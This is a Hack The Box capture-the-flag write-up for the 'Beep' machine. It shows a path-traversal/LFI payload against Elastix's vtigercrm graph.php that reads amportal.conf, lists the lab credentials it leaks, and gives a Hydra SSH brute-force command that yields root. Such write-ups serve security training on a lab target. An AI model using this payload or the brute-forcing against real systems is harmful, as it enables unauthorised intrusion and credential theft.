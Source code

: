 ```yaml
---
title: 'HTB: Beep'
date: '2025-04-26'
excerpt: 'Beep has a very large list of running services, which can make it a bit challenging to find the correct entry method. This machine can be overwhelming for some as there are many potential attack vectors. Luckily, there are several methods available for gaining access.'
readingTime: 1
tags: ['HTB', 'Writeup', 'HTB', 'Writeup', 'Easy', 'Linux', 'Web', 'Pwn']
author: 'pir4cy'
coverImage: '/images/htb/covers/beep-cover.png'
---
```


# Beep

## Info  
  * IP: 10.10.10.7
  * OS: Linux
  * Difficulty: Easy

## System Enumeration

### NMAP

![Beep Nmap](/images/htb/machines/Beep/nmap.png "NMAP")


### Web Page

![Beep WebPage](/images/htb/machines/Beep/webpage.png "Web Page")


## Exploitation

Since our webpage is an Elastix login, we should simply check if an exploit for elastix exists.  
Using `searchsploit elastix` we find:

![SearchSploit](/images/htb/machines/Beep/searchsploit.png "Searchsploit Output")


Trying out the local file inclusion vulnerability

![Exploit Documentation](/images/htb/machines/Beep/exploitcode.png "LFI graph.php")


`LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action`  

After appending this address to the web portal `10.10.10.7` we can see the `amportal.conf` file which consists of important user data.  
Simply viewing the source code, we see the data in a readable format

![Exploit Page Source Code](/images/htb/machines/Beep/exploitpage.png "Source Code")


So we make 2 lists for possible users and passwords


#### Users.txt(users on my local machine)

  ```
  root
  mysql
  cyrus
  asterisk
  spamfilter
  fanish
  ```

#### password.txt(pws on my local machine)

  ```
  asterisk
  amp109
  jEhdIekWmdjE
  passw0rd
  ```


### Hydra

After creating the lists of users and passwords we simply run Hydra to check possible ssh combinations.  
Using the command:  
`hydra -L users -P pws ssh://10.10.10.7`

![Hydra](/images/htb/machines/Beep/hydra.png "Hydra")


### Root Owned

Now we simply ssh, with the password that we got as root and we're in

![Rooted](/images/htb/machines/Beep/owned.png "Pwnage")


Simply traverse to the `/root` directory for `root.txt` and to `home/fanis` for `user.txt`

